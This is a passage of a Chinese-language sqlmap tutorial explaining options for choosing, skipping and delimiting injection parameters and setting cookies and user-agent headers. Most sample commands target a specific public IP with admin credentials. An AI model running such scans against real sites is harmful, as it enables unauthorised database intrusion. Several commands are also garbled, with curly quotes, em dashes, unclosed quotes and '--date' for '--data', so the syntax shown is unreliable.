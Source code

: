 

> python sqlmap.py -u “http://target_url/param1/value1*/param2/value2**“**



## 四.配置目标参数



##### **-p ：指定要扫描的参数**



> python sqlmap.py -u “http://59.63.200.79:8003/?id=1&username=admin&password=123“-p “username,id”



##### **—skip：排除指定的扫描参数**

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1&username=admin&password=123“ —skip “username,id”



##### **—data：指定扫描的参数，get/post都适用** 



> python sqlmap.py -u **“**http://59.63.200.79:8003/?id=1&username=admin&password=123**“** —date=”username=admin&password=123”

##### 

##### **—param-del：改变分隔符，默认是&，因为有些网站不实用&传递多个数据。**



> python sqlmap.py -u “http://59.63.200.79:8003/?id=1&username=admin&password=123**“** —date=”username=admin;password=123” —param-del=”;”



##### **—cookie ：使用cookie的身份认证**



> python sqlmap.py -u **“**http://59.63.200.79:8003/?id=1**“**—cookie=”security=low;PHPSESSID=121123



##### **—drop-set-cookie：**有时候发起请求后，服务器端会重新Set-cookie给客户端，SQLmap默认会使用新的cookie，这时候可以设置此参数，表示还是用原来的cookie。



> python sqlmap.py -u **“**http://59.63.200.79:8003/?id=1**“** —cookie=”security=low;PHPSESSID=121123131 —-drop-set-cookie”



##### **—user-agent ：使用浏览器代理头**



> python sqlmap.py -u **“**http://59.63.200.79:8003/?id=1**“** —user-agent=”aaaaaaaaa”
